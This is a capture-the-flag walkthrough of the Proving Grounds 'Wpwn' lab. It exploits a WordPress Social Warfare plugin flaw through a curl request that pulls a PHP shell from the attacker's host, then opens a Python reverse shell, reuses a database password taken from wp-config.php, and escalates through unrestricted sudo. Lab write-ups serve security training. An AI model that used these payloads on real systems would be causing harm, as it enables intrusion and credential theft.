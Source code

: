```yaml
---
title: Wpwn
categories: [Proving Grounds, Play]
tags: [PrivEsc, RFI, Wordpress]
image:
  path: /assets/images/wppwn.png
  alt:  Wpwn Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled.png)

```bash
IP : 192.168.249.141
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/wpwn]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-26 03:32 EDT
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 192.168.249.141
Host is up (0.00073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:E5:DB:C0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%201.png)

Now I found wordpress in this site so lets dig into it with `wpscan tool` →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%202.png)

Now I found an exploit related to social warfare on github →

[https://github.com/shad0w008/social-warfare-RCE](https://github.com/shad0w008/social-warfare-RCE)

I Followed this path and got this →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%203.png)

When I loaded this url →

```bash
curl http://192.168.249.141/wordpress/wp-admin/admin-post.php?rce=id&swp_debug=load_options&swp_url=http://192.168.249.128:8888/rcshell.php
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%204.png)

as I got the value of id so lets use this LFI to get a local privilege Escalation →

 I used python reverse shell command →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.249.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%205.png)

Lets see wp-config.php file →

```bash
www-data@wpwn:/var/www/html/wordpress$ cat wp-config.php
cat wp-config.php                                                                                                              
<?php                                                                                                                          
/**                                                                                                                            
 * The base configuration for WordPress                                                                                        
 *                                                                                                                             
 * The wp-config.php creation script uses this file during the                                                                 
 * installation. You do not have to use the web site, you can                                                                   
 * copy this file to "wp-config.php" and fill in the values.                                                                   
 *                                                                                                                             
 * This file contains the following configurations:                                                                            
 *                                                                                                                             
 * * MySQL settings                                                                                                            
 * * Secret keys                                                                                                               
 * * Database table prefix                                                                                                     
 * * ABSPATH                                                                                                                   
 *                                                                                                                             
 * @link https://wordpress.org/support/article/editing-wp-config-php/                                                          
 *                                                                                                                             
 * @package WordPress                                                                                                          
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Do not change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 ...

www-data@wpwn:/var/www/html/wordpress$ cd /home
cd /home
www-data@wpwn:/home$ ls
ls
takis
www-data@wpwn:/home$ cd takis
cd takis
www-data@wpwn:/home/takis$ ls -al
ls -al
total 32
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .
drwxr-xr-x 3 root  root  4096 Aug 17  2020 ..
-rw------- 1 takis takis   59 Aug 17  2020 .bash_history
-rw-r--r-- 1 takis takis  220 Aug 17  2020 .bash_logout
-rw-r--r-- 1 takis takis 3526 Aug 17  2020 .bashrc
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .local
-rw-r--r-- 1 takis takis  807 Aug 17  2020 .profile
-rw-r--r-- 1 root  root    33 Aug 17  2020 user.txt
www-data@wpwn:/home/takis$ cat user.txt 
cat user.txt
04ebbbf5e6e298e8fab6deb92deb3a7f
www-data@wpwn:/home/takis$
```
{: .nolineno}
{: .nolineno}

Now lets use that password and try to get the takis shell →

```bash
www-data@wpwn:/home/takis$ su takis
su takis
Password: R3&]vzhHmMn9,:-5
/bin/bash -i
bash: cannot set terminal process group (556): Inappropriate ioctl for device
bash: no job control in this shell
takis@wpwn:~$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
takis@wpwn:~$
```
{: .nolineno}
{: .nolineno}

Now lets see what takis can do to lead us to root →

```bash
takis@wpwn:~$ sudo -l
sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
takis@wpwn:~$ sudo /bin/bash -i
sudo /bin/bash -i
root@wpwn:/home/takis# cd /root
cd /root
root@wpwn:~# whoami
whoami
root
root@wpwn:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@wpwn:~# ls -al
ls -al
total 32
drwx------  3 root root 4096 Aug 17  2020 .
drwxr-xr-x 18 root root 4096 Aug 17  2020 ..
-rw-------  1 root root 1812 Aug 17  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 17  2020 .local
-rw-------  1 root root  215 Aug 17  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   87 Aug 17  2020 root.txt
root@wpwn:~# cat root.txt
cat root.txt
damn, i really do not know where i left the root.txt flag, take a look into my USB plz.
root@wpwn:~#
```
{: .nolineno}
{: .nolineno}

I found the USB from the `.bash _history` →

```bash
root@wpwn:/usr/games/USB# ls
ls
root
root@wpwn:/usr/games/USB# cat root
cat root
19905b045801f04e96d803659ad987ce

-gamer over
root@wpwn:/usr/games/USB#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
